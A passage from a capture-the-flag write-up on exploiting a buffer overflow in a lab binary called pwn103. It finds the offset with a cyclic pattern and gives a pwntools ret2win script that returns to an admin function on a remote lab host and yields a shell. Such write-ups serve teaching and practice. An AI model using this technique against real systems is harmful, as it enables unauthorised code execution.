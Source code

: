 ```shell
4) 🏠 rooms discussion
5) 🤖 Bot commands
➖➖➖➖➖➖➖➖➖➖➖
⌨️  Choose the channel: 3

🗣  General:

------[jopraveen]: Hello pwners 👋
------[jopraveen]: Hope you're doing well 😄
------[jopraveen]: You found the vuln, right? 🤔

------[pwner]: aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa
Try harder!!! 💪

Program received signal SIGSEGV, Segmentation fault.
0x0000000000401377 in general ()
```

We get the offset of the binary is 40

```shell
pwndbg> cyclic -l faaaaaaa
Finding cyclic pattern of 8 bytes: b'faaaaaaa' (hex: 0x6661616161616161)
Found at offset 40
```

Let's create a script to automate the process.

```python
from pwn import *

exe = './pwn103.pwn103'
elf = context.binary = ELF(exe, checksec=False)
context.log_level = 'debug'

io = remote("10.10.135.73" ,9003)

admins_only = elf.sym.admins_only

payload = flat(
    asm('nop') * 40,
    p64(0x0000000000401016),
    admins_only
)

write('payload', payload)
io.sendlineafter(b':', '3')
io.sendlineafter(b':', payload)
io.interactive()
```

Running the script on the remote server we get a shell and the flag
